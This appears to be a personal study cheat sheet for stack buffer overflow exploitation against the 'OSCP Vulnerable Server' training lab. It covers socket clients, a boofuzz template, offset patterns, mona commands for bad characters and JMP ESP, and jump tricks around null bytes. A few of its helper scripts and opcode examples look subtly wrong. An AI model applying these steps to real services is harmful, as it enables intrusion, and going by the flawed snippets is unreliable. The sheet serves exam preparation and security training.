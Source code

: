 # Buffer Overflows

lets try to connect with simple python client 
we can also do with **nc**

```python
import socket 
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.129.253',1337))
msg = s.recv(2048).decode()
print(msg)
```

now we get the output 

```
Welcome to OSCP Vulnerable Server! Enter HELP for help.
```

ok now we need to send **HELP** and see whats output

```python

import socket 
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.129.253',1337))
msg = s.recv(2048).decode()
print(msg)
msg = 'HELP'
s.send(msg.encode('raw_unicode_escape'))
msg = s.recv(2048).decode()
print(msg)
s.close()
```

we get the output

```
Welcome to OSCP Vulnerable Server! Enter HELP for help.
Valid Commands:   
HELP
OVERFLOW1 [value] 
OVERFLOW2 [value] 
OVERFLOW3 [value] 
OVERFLOW4 [value] 
OVERFLOW5 [value] 
OVERFLOW6 [value] 
OVERFLOW7 [value] 
OVERFLOW8 [value] 
OVERFLOW9 [value] 
OVERFLOW10 [value]
EXIT
```

---

## Fuzzing Template

i am fan of boofuzz (no offense to spike or sulley)
this template can be used to fuzz instantly

change ipaddress , port and at OVERFLOW1 according to your application
```python
from boofuzz import * 

session = Session(target=Target(connection=SocketConnection('192.168.0.10',31337,proto='tcp')))
s_initialize("FUZZ")
s_static("OVERFLOW1 ")
s_string("AAAA")
session.connect(s_get("FUZZ"))
session.fuzz()
```

---

## Pattern Generation

Using **msf-pattern_create**
```
$ /usr/bin/msf-pattern_create -l 20  
Aa0Aa1Aa2Aa3Aa4Aa5Aa
```

Finding Offset using **msf-pattern_offset**
```
$ /usr/bin/msf-pattern_offset -q Aa3A
[*] Exact match at offset 9
```

Using online website 
```
https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html
```

I also made a pattern_generator.py
simple but efficient in searching any length bytes

```python
import random

data = ['A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z',\
    'a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z',\
        '1','2','3','4','5','6','7','8','9','0']

length = int(input("enter length of the pattern size "))
pattern = ''
for i in range(length):
    pattern += data[random.randint(0,61)]

#print("pattern generated")
print(pattern)
item = input("enter string to find offset ")
#index1 = pattern.find(item)
indexes = [] 
item_length = len(item)
for i in range(0,len(pattern)):
    temp = pattern[i:i+item_length]
    if temp == item:
        indexes.append(i)
for every in indexes:
    print(every)
```

---

## Bad Character Detection

generate all bytes using mona
```
!mona bytearray -b "\x00"
```

generate using python
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

comparing bytes from esp to file
```
!mona compare -f c:\mona\program\bytearray.bin -a esp_address
```

---

## Finding JMP REGISTER

using mona
```
!mona jmp -r register -cpb "\x00\x0a\x0d"

!mona jmp -r esp -cpb "\x00\x0a\x0d"

```

using Immunity Debugger
```
Right click on CPU Pane > Search for > All commands in All Modules 

Enter JMP ESP

```

---

## Setting Breakpoint at eip address

do this and debug when ur shellcode doesnot execute

```
Right click on CPU Pane > Go to > Expression > put jmp esp address > Toggle Breakpoint
```

click the next button right next to run button 

---

## Alternatives to JMP ESP

when there is no jmp esp , we can try these alternatives

**CALL ESP**
```
This is similar to jmp esp
```

**PUSH RET**
```
PUSH esp 
RET

first instruction pushes esp address on to stack
RET takes top of stack that is address of esp and places in eip
```

---

## Tackling NULL Bytes
if there are some junk or null bytes after eip and before esp 
like less than 8 bytes

**POP POP RET**
first pop operation takes content at esp and puts in a register
another pop does the same
ret will place esp content into eip
we can search for these 
POP reg32
POP reg32
RET

using mona
```
!mona pop pop ret
```

using Immunity 
```
Right Click on CPU Pane > Search for > ALL SEQUENCES OF COMMANDS IN ALL MODULES > 

POP reg32
POP reg32
RET

```

**SHORT JMP**
we can convert our assembly instructions to opcode
and write opcode in esp instead of address
go to this website and assemble instructions
```
https://defuse.ca/online-x86-assembler.htm
```
lets say we wanna jump 40 bytes
```
op code is e9 3c 00 00 00  
esp = '\x90\x90\x3c\xe9'
```
it will jump 40 bytes down 

i wrote a python script u can choose to jump forward or backward
```python
n = int(input("Enter how many bytes you want to jump :"))
direction = int(input("Enter which direction you want to jump 1.forward 2. backward"))

if direction == 1:
    print("\\xeb\\{}".format(hex(n)[1:]))

if direction == 2:
    temp = 256-n
    print("\\xeb\\{}".format(hex(temp)))
```

There are many ways to escape null or bad bytes
practice and you will find more interesting ways 